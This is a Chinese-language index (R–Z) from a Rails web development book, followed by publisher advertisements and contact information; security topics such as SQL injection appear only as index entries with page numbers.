- API 文档，**6**
- 自动加载文件，**235**
- 内置 Web 服务器，**226**
- 目录，**32**，**222**
- 文件命名，**233**
- 文件查找，**232**
- 组件集成，**415**
- 起源于 Basecamp，**3**
- 整体流程，**346**
- `runner` 命令，**488**
- 版本，**6**

`rails` 命令，**32**，**59**，**182**

- 创建的目录，**222**

`RAILS_ENV`，**230**，**231**

`raise_delivery_errors` 配置参数，**481**

`position` 列，**345**

+   Rake
    `appdoc`, 179
    `doc:app`, 224
    `Rakefile`, 223
    `rake` 命令, 67
    Raw SQL, 343
    `raw_post` 属性, 460
    RDoc, 179, 224, 543–544
        模板化, 447
    `read_attribute()` 方法, 254, 342
    `read_fixture()` 方法, 489
    `read_fragment()` 方法, 445
    `README_FOR_APP`, 179, 224
    `receive()` 方法, 487, 489
    收件人（电子邮件）, 483
    `record_timestamps` 配置参数, 334
    `RecordInvalid` 异常, 273
    RedCloth（格式化）, 410
    重定向, 368–371
        永久性, 371
        防止双重事务, 369
    `:redirect` 参数, 201
    `redirect_to()` 方法, 111, 369, 370
    `redirect_to_url` 属性, 205
    Reensjaug, Trygve, 9
    正则表达式, 538
        使用验证, 78
    `reload()` 方法, 271, 309
    重新加载子对象, 290
    开发中重新加载更改, 43
    `:remote_autocomplete` 参数, 470
    `remote_ip` 属性, 361
    渲染, 363–366
        自动, 363
        布局, 366
        方法, 364
    `render()` 方法, 120, 178, 363, 364, 435, 436, 447, 483
        `:action` 参数, 364
        `:collection` 参数, 437
        `:file` 参数, 365
        `:inline` 参数, 364
        `:layout` 参数, 366, 435, 455
        `:nothing` 参数, 365
        `:partial` 参数, 365, 436–438
        `:spacer_template` 参数, 437
        `:status` 参数, 366
        `:template` 参数, 365
        `:text` 参数, 364
    `render_component()` 方法, 439
    `render_component_as_string()` 方法, 443
    `render_partial()` 方法, 436
    `render_to_string()` 方法, 366
    请求
        `delete()`, 362
        `domain` 属性, 361
        `env` 属性, 361
        环境, 361
        `get()`, 158, 362
        `head()`, 362
        头信息, 362
        `method` 属性, 361
        参数, 362
        `post()`, 158, 362
        `put()`, 362
        `raw_post` 属性, 460
        `remote_ip` 属性, 361
        `xhr()`, 476
        `xml_http_request()`, 476
    `request` 属性, 361, 401
    请求处理, 11, 36, 347–358
        AJAX, 456
        缓存, 390
        过滤器, 385
        flash 数据, 110, 382
        使用过滤器修改响应, 386
        参数和安全, 109
        响应用户, 363
        提交表单, 415
        测试类型, 157
        Web 服务, 499
    `require` 关键字, 543
    `rescue` 语句, 111, 540
    `respond_to()` 方法, 176
    响应
        压缩, 384
        内容类型, 367
        数据和文件, 366
        头, 367
        HTTP 状态, 366
    `response` 属性, 362, 401
    返回值（方法）, 533
    `:returns` 参数, 496
    可重用组件, 440
    `robots.txt`, 399
    `routes.rb`, 348
    路由, 11, 348–358
        控制器, 357
        默认动作是索引, 350
        `url_for()` 的默认值, 358
        使用的默认值, 353
        示例, 350
        映射规范, 348, 349
        `map.connect()`, 348
        命名的, 359
        命名参数, 349
        部分 URL, 355
        模式, 348
        设置默认值, 349
        使用 `to_param()` 创建 URL 片段, 356
        URL 生成, 352
        和 `url_for()`, 352
        验证参数, 349
        Web 服务, 507
        通配符参数, 349
        使用多个规则, 350
    `require` 关键字, 543
    `rescue` 语句, 540
    `self` 关键字, 534, 542
    字符串, 532
    符号, 531
    `while` 语句, 538
    `yield` 语句, 539
    Ruby DBI, 30
    RubyGems
        文档服务器, 6
    `runner` 命令, 226, 488
    行
        映射到对象, 16

## S
    `:rows` 参数, 419
    RSS（自动发现）, 413
    Ruby
        访问器, 534
        优点, 2
        数组, 536
        `begin` 语句, 540
        代码块, 539
        类, 529, 533
        注释, 531
        常量, 531
        声明, 534
        异常处理, 111, 540
        异常, 540
        哈希, 537
        习惯用法, 541
        `if` 语句, 538
        继承, 533
        实例方法, 530, 534
        实例变量, 44, 530, 534
        简介, 529-544
        迭代器, 539
        编组, 540
        方法, 531
        模块, 536
        命名约定, 531
        `nil`, 537
        对象, 529
        数据库中的对象, 256, 313
        参数和 `=>`, 538
        `pp` 库（美化打印）, 252
        `protected`, 75, 535
        正则表达式, 538
        示例程序, 549-571
    `sanitize()` 方法, 405, 515
    `save()` 方法, 261, 272, 273, 305
    `save!()` 方法, 273
    脚手架, 68, 71
        动态, 79
        修改代码, 81
        静态, 79
    扩展
        和会话, 98
    Schwarz, Andreas, 510
    `:scope` 参数, 308
    `scripts/` 目录, 226
    脚本小程序, 404
    `seconds_since_midnight()` 方法, 246
    安全, 510-523
        和缓存, 522
        检查 `id` 参数, 519
        cookie, 372
        跨站脚本, 89, 513-516
        和删除行, 519
        不要信任传入的参数, 517-518
        回显服务漏洞, 515
        转义 HTML, 42, 405
        暴露的控制器方法, 520-521
        文件上传, 521-522
        和 GET 方法, 397-399
        隐藏电子邮件地址, 412
        保护模型属性, 517
        推至最低级别, 512
        Rails 查找器, 513
        请求参数, 109
        会话固定攻击, 516-517
        SQL 注入, 265, 510-513
        验证上传类型, 427
    `select()` 方法, 420
    `select` 语句, 268
    `select_all()` 方法, 344
    `select_date()` 方法, 424
    `select_datetime()` 方法, 424
    `select_day()` 方法, 424
    `select_hour()` 方法, 424
    `select_minute()` 方法, 424
    `select_month()` 方法, 424
    `select_one()` 方法, 344
    `select_second()` 方法, 424
    `select_tag()` 方法, 430
    `select_time()` 方法, 424
    `select_year()` 方法, 424
    Selenium（用于测试）, 476
    `self` 关键字, 534, 542
    发送文件, 366
    `send_data()` 方法, 224, 366
        `:disposition` 参数, 366
        `:filename` 参数, 366
        `:type` 参数, 366
    `send_file()` 方法, 367
        `:buffer_size` 参数, 367
        `:disposition` 参数, 367
        `:filename` 参数, 367
        `:streaming` 参数, 367
        `:type` 参数, 367
    `serialize()` 方法, 256
    序列化（对象使用编组）, 540
    服务器
        启动开发, 33
    `server` 命令, 226
    `server_settings` 配置参数, 480
    `session` 属性, 98, 204, 362, 373, 401
    `_session_id`, 373
    会话, 97–100, 373–381
        访问, 362
        `ActiveRecordStore`, 377
        购物车访问器, 100
        比较存储选项, 379
        在数据库中, 377
        默认值, 376
        DRb 存储, 378
        过期, 381
        在数据库中, 381
        flash 数据, 382
        平面文件存储, 379
        `id`, 373
        内存存储, 378
        memcached 存储, 378
        对象在, 373
        定期清理, 381
        PStore, 377
        限制, 373, 541
        存储选项, 98, 377–380
        使用 cookie, 98
        使用 URL 重写, 98
    `set_primary_key()` 方法, 258
    `set_table_name()` 方法, 250
    `setup()` 方法, 195
    `:sibling` 参数, 203
    侧边栏
        使用组件构建, 440
    签名（Web 服务中的方法）, 496
    `since()` 方法, 245, 246
    单表继承, 318–322
    `singularize()` 方法, 243
    `:size` 参数, 419
    源代码, 549–571
        下载, 5
    `:spacer_template` 参数, 437
    爬虫, 398
    SQL
        绑定变量, 512
        单表继承的列, 319
        计数行, 269
        `created_at`/`created_on` 列, 334, 345
        删除行, 276
        动态, 265
        外键, 278
        `id` 列, 345
        插入, 322
        发出原始命令, 343
        连接的表, 277
        `lock_version` 列, 345
        锁定, 274
        魔法列名, 345
        `parent_id` 列, 310, 345
        占位符, 265
        `position` 列, 308, 345
        `select`, 268
        `type` 列, 345
        `update`, 272, 273, 322
        `updated_at`/`updated_on` 列, 334, 345
        `where` 子句, 264
    `StaleObjectError` 异常, 275
    `start_form_tag()` 方法, 417
    状态
        保存在模型中, 9
    `:status` 参数, 366
    `:streaming` 参数, 367
    字符串
        扩展, 243
        使用 Blue 和 RedCloth 格式化, 410
        格式化, 408, 410
    String 列类型, 253
    字符串（Ruby）, 532
    Struts, 1, 11
    样式表, 83
        链接到页面, 413
    `stylesheet_link_tag()` 方法, 84, 413
    `subject()` 方法
        `:body` 参数, 412
    主题（电子邮件）, 483
    子模块（用于控制器）, 236
    `:success` 参数, 201
    清扫器（缓存）, 394
    清扫器（会话数据）, 381
    符号（`:name` 表示法）, 531

## T
    表命名, 233, 250
    `:tag` 参数, 202
    `tail` 命令, 111
    Tapestry, 1
    模板, 17, 363–366, 400–405
        `<%..%>`, 41
        `<%=...%>`, 40
        从模板访问控制器, 401
        添加新模板, 447–449
        自动加载, 235
        和集合, 437
        创建 XML, 402
        动态, 40, 43, 403
        电子邮件, 483
        转义 HTML, 405
        辅助方法, 407
        HTML, 38, 403
        位置, 38
        命名约定, 234, 363, 400
        部分, 435-438
        传递参数给部分, 437
        使用 RDoc, 447
        注册新处理器, 448
        示例：动态, 449
        `rhtml`, 403
        根目录, 400
        `rxml`, 402
        共享实例变量, 401
        共享, 401, 438
        在控制器中使用, 438
        `:template` 参数, 365
    `template_root` 配置参数, 364, 400
    `terabytes()` 方法, 245
    测试, 181–220
        AJAX, 475
        `assert_redirected_to()`, 197
        `assert_response()`, 196, 197
        `assigns` 属性, 204
        `Benchmark.realtime()`, 217
        控制器, 194
        `cookies` 属性, 204
        数据, 188
        `delete()`, 200
        目录, 182
        电子邮件, 479, 489
        环境, 184
        `find_all_tag()`, 205
        `find_tag()`, 205
        固定装置, 187
        `fixture_file_upload()`, 205
        `fixtures()`, 189
        `flash` 属性, 197, 204
        `follow_redirect()`, 205
        功能测试, 194
        定义, 182
        `get()`, 196, 200
        `head()`, 200
        JsUnit, 476
        模拟对象, 218–220, 232
        `post()`, 200
        `put()`, 200
        `redirect_to_url` 属性, 205
        Selenium, 476
        `session` 属性, 204
        `setup()`, 195
        标准变量, 204
        单元测试
            定义, 182
        Venkman（用于 JavaScript）, 476
        使用脚手架的 Web 服务, 496
        Web 服务, 506
        `xhr()`, 200, 475
        `xml_http_request()`, 200, 475
        YAML 测试数据, 188
    `test/` 目录, 223
    `test.rb`, 231
    Test::Unit, 183
    `:text` 参数, 364
    文本框自动完成（AJAX）, 470
    `text_area()` 方法, 419
        `:cols` 参数, 419

## U

`until()` 方法，245
`:update` 参数，460
`update()` 方法，273
`update_all()` 方法，273
`update_attribute()` 方法，272
`updated_at`/`updated_on` 列，334, 345
更新 Rails，31
更新行，272
上传文件，425
- 安全问题，521

URL
- 链接中的绝对路径，412
- Web 服务的端点，499
- 格式，11, 36, 236
- 使用 `to_param()` 生成片段，356
- 使用 `link_to()` 生成，48
- 使用 `url_for()` 生成，352
- 重定向，368
- 重写与会话，98

`url_for()` 方法，352, 357, 360
- `:anchor` 参数，358
- `:host` 参数，358
- `:only_path` 参数，358
- `:overwrite_params` 参数，355
- `:protocol` 参数，358
- `:trailing_slash` 参数，358

用户界面效果，462
`uses_component_template_root()` 方法，442

## V

`valid()` 方法，323
`validate()` 方法，75, 322
`validate_on_create()` 方法，322
`validate_on_update()` 方法，322
`validates_acceptance_of()` 方法，325
`validates_associated()` 方法，326
`validates_confirmation_of()` 方法，326
`validates_each()` 方法，327
`validates_exclusion_of()` 方法，327
`validates_format_of()` 方法，78, 328
`validates_inclusion_of()` 方法，329
`validates_length_of()` 方法，329
`validates_numericality_of()` 方法，75, 330
`validates_presence_of()` 方法，75, 330
`validates_uniqueness_of()` 方法，331

验证，74, 322–331
- `errors.add()`，76
- 依赖操作，322

值对象，313, 318
Varchar 列类型，253
变量，实例，44
`vendor/` 目录，227
Venkman，476
验证，389
`verify()` 方法，389
版本 (Rails 的)，6

### 视图
- Action View，17
- 目录，46
- 实例变量，44
- 与控制器和模型的集成，415
- 渲染，11
- 职责，9

### 视觉效果
- `Effect.Appear()`，465
- `Effect.Fade()`，465
- `Effect.Highlight()`，465
- `Effect.Puff()`，465
- `Effect.Scale()`，466
- `Effect.Squish()`，465
- `Element.setContentZoom()`，467
- 不使用 AJAX，475

视觉反馈，464
Visual Studio (用于 Web 服务)，504

### 易变内容
- 缓存，396

## W

警告 (日志级别)，237
Web 服务器，226
- `-e` 选项，230
- 启动，33, 69

### Web 服务
- `after_invocation()`，505
- `api_method()`，496
- `before_invocation()`，505
- 作为客户端，509
- 定义 API，494
- 分发
  - 委托式，500, 503
  - 直接式，500
  - 分层式，500, 502
- 生成，494
- `invoke()`，506
- `invoke_delegated()`，507
- `invoke_layered()`，507
- 限制，493
- 方法拦截，504
- 方法签名，496
- 参数
  - 二进制 (base64)，499
  - 名称，498
  - 规范，497
  - 结构化，499
  - 类型，498
- SOAP 与 WSDL，507
- 测试
  - 使用脚手架，496
  - 测试，506-509
- 类型强制转换，494
- `web_client_api()`，509
- `web_service_dispatching_mode()`，502
- `web_service_scaffold()`，496
- `wsdl_service_name()`，496
- XML-RPC，507

网络蜘蛛，398

`web_client_api()` 方法，509
`web_service()` 方法，502
`web_service_dispatching_mode()` 方法，502
- `:delegated` 参数，502
- `:direct` 参数，502
- `:layered` 参数，502
`web_service_scaffold()` 方法，496

WebObjects，11

WEBrick，33, 69, 226
- `-e` 选项，230

`weeks()` 方法，245
`where` 子句，264
`while` 语句，538

### Windows
- `less` 命令，111

`write_attribute()` 方法，254

`wsdl_service_name()` 方法，496

`xhr()` 方法，200, 475, 476
XML (使用 Builder 生成)，402
`xml_http_request()` 方法，200, 475, 476
`XMLHttpRequest`，453

YAML，61, 63
- 文件中的别名，231
- 测试数据，188

`years()` 方法，245
`years_ago()` 方法，246
`years_since()` 方法，246
黄色淡出 (高亮)，465
`yesterday()` 方法，246
`yield` 语句，539

Zlib，387

### 程序员帮助

**恭喜**你加入全球的 Ruby on Rails 社区。我们希望你喜欢这本书，并继续享受使用 Rails 的乐趣。

既然你已经掌握了快速、工业级强度的 Web 技术，你可能对 Pragmatic Bookshelf 的其他探讨更宏大图景的书籍感兴趣。

### 《Ship It!》

本书向你展示如何运行一个项目并**按时、按预算地发布它**，没有任何借口。你将学习每个项目都需要的常见技术基础设施，以及广为接受、易于采用、最佳实践的解决方案，这些方案确实有效，同时也会介绍常见问题及其解决方法。

**《Ship It!：成功软件项目的实用指南》**
Jared Richardson 与 Will Gwaltney
(200 页) ISBN: 0-9745140-4-7, $29.95

### 《我的工作去了印度》

就业市场正在发生变化。你当前的工作可能被外包，也许是到印度或东欧。但你可以通过遵循这些实用且及时的建议来保住工作并提升职业生涯。了解如何：
- 将你的职业生涯视为一项业务
- 建立你作为软件开发者的个人品牌
- 制定一个结构化计划以保持技能与时俱进
- 向你的公司和整个行业推销你自己
- 保住你的工作！

**《我的工作去了印度：保住工作的52种方法》**
Chad Fowler
(200 页) ISBN: 0-9766940-1-8, $19.95
(2005 年秋季上市)

访问我们的安全在线商店：[http://pragmaticprogrammer.com/catalog](http://pragmaticprogrammer.com/catalog)

### 《Ruby 面面观》系列

从 Pragmatic Programmers 学习如何使用流行的 Ruby 编程语言：你获取 Ruby 语言以及基于 Ruby 的令人兴奋的新型应用开发工具参考和教程的权威来源。

*Ruby 面面观*系列包括 Ruby 的权威指南，广为人知的“镐头书”，以及这本 Rails 书。注册以获取未来几个月该系列更多书籍的公告。

### 《编程 Ruby》（镐头书）

- Ruby 程序员的权威指南。
- 为 Ruby 1.8 版本更新和扩展。
- 所有内置类、模块和方法的完整文档。
- 所有九十八个标准库的完整描述。
- 本版本包含 200 多页的新内容。
- 了解更多关于 Ruby 的 Web 工具、单元测试和编程哲学。

**《编程 Ruby：实用程序员指南，第2版》**
Dave Thomas 与 Chad Fowler 和 Andy Hunt (864 页) ISBN: 0-9745140-5-5. $44.95
http://pragmaticprogrammer.com/titles/ruby

### 《Rails 食谱》

- 七十个深入的食谱：
  - 用户界面。
  - 数据库。
  - 控制器。
  - 测试。
  - 电子邮件。
  - 以及大局观食谱
- 针对常见问题的完整解决方案。
- 独特的 Rails 生产力技巧。
- 了解专业人士如何编写他们的 Rails 应用程序。
- 包含 Rails 核心团队的贡献。

**《Rails 食谱》**
Chad Fowler
(368 页) ISBN: 0-9776166-0-6. $32.95
http://pragmaticprogrammer.com/titles/fr_rr

### 务实书架

务实书架收录由开发者为开发者撰写的书籍。这些书名延续了著名的《务实程序员》风格，并持续获得各类奖项和热烈好评。随着开发工作日益艰巨，务实程序员团队将推出更多书籍和产品，助程序员们始终掌握前沿技术。

### 在线访问我们

**《Rails敏捷Web开发》**
pragmaticprogrammer.com/titles/rails2
本书源代码、勘误表及其他资源。欢迎在此提供反馈！

**注册获取更新通知**
pragmaticprogrammer.com/updates
当有新书或更新发布时，我们将及时通知您。

**加入社区**
pragmaticprogrammer.com/community
阅读我们的博客，参与在线讨论，订阅邮件列表，互动我们的Wiki，从其他务实程序员的经验中获益。

**最新动态**
pragmaticprogrammer.com/news
了解务实开发者领域的最新资讯。

### 购买本书

如果您喜欢这份PDF文档，或许也想拥有一本纸质书。您可以在我们的商店购买：[pragmaticprogrammer.com/titles/rails2](https://pragmaticprogrammer.com/titles/rails2)。

### 联系我们

| 项目 | 详情 |
| :--- | :--- |
| 电话订购： | 1-800-699-PROG (+1 919 847 3884) |
| 在线订购： | [www.pragmaticprogrammer.com/catalog](https://www.pragmaticprogrammer.com/catalog) |
| 客户服务： | orders@pragmaticprogrammer.com |
| 非英语版本： | translations@pragmaticprogrammer.com |
| 务实教学： | academic@pragmaticprogrammer.com |
| 作者提案： | proposals@pragmaticprogrammer.com |

专为Leonardo Augusto Pires准备

